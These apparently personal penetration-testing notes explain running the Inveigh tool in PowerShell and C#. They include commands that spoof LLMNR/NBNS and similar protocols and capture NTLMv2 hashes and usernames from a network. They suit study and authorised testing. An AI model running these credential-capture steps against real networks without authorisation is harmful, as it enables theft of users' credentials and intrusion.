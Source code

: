 # Inveigh
By using tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) and attempt to capture another set of credentials. [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

On powershell (Open as admin)
``` powershell
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


##### Its recommend to use C# Inveigh as powershell one not supported 
Inveigh [v2.0.11](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11)
steps on powershell (opened as admin)
```powershell-session
.\Inveigh.exe
```
_Note_: During capturing you can Press ESC to enter/exit interactive console, After typing `HELP` and hitting enter, we are presented with several options:
- We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`
- We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected.
